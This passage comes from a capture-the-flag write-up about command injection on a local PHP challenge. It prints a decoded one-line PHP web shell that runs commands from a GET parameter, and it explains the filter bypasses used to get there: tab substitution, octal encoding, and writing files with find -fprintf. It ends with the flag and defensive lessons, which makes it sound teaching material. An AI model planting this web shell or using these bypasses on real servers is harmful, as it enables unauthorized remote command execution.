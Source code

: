 Then access: `http://localhost:8888/shell.php?0=/readflag%20i%20want%20the%20flag%20please`


#### How This Method Works
- **PHP Shell Creation**: Creates a more flexible PHP shell that accepts commands via GET parameters
- **Octal Encoding**: `\\74` = `<`, `\\50` = `(`, `\\44` = `$`, `\\133` = `[`, `\\135` = `]`, `\\51` = `)`
- **Decoded PHP**: The file contains `<?php system($_GET[0]); ?>`
- **Parameterized Execution**: We pass the command as a GET parameter (`?0=/readflag%20i%20want%20the%20flag%20please`)
- **Flexibility**: This method allows us to execute any command by changing the GET parameter
- **URL Encoding**: We use `%20` for spaces in the URL since we're passing it as a parameter

## Key Techniques Used

### 1. TAB Character Substitution
- **Why**: Spaces are blacklisted in the input filter
- **How**: Use `%09` (URL-encoded TAB) instead of spaces
- **Result**: TAB characters work as separators in most command contexts

### 2. Octal Encoding
- **Why**: Many special characters are blacklisted (`<`, `>`, `(`, `)`, `$`, `[`, `]`)
- **How**: Use octal representations like `\040` (space), `\074` (`<`), `\076` (`>`)
- **Result**: Bypass character filters while maintaining functionality

### 3. Find -fprintf File Writing
- **Why**: Direct command execution is blocked by filters
- **How**: Use `find -fprintf filename "data"` to write arbitrary content to files
- **Result**: Create PHP files that can execute commands when accessed via web server

### 4. File-based Execution
- **Why**: Input filters prevent direct command injection
- **How**: Write PHP files to web directory, then access them via HTTP
- **Result**: Bypass input filters by using the web server to execute our payload

### 5. Multiple PHP Execution Methods
- **system()**: Command execution with GET parameters for flexibility
- **Backticks**: Alternative syntax for command execution

## Flag
`QnQSec{test_flag_by_whale120}`

## Lessons Learned

### Security Implications
- **Blacklisting is insufficient**: Impossible to anticipate all attack vectors
- **Input validation**: Should use whitelisting or parameterized commands
- **Defense in depth**: Multiple layers of protection needed
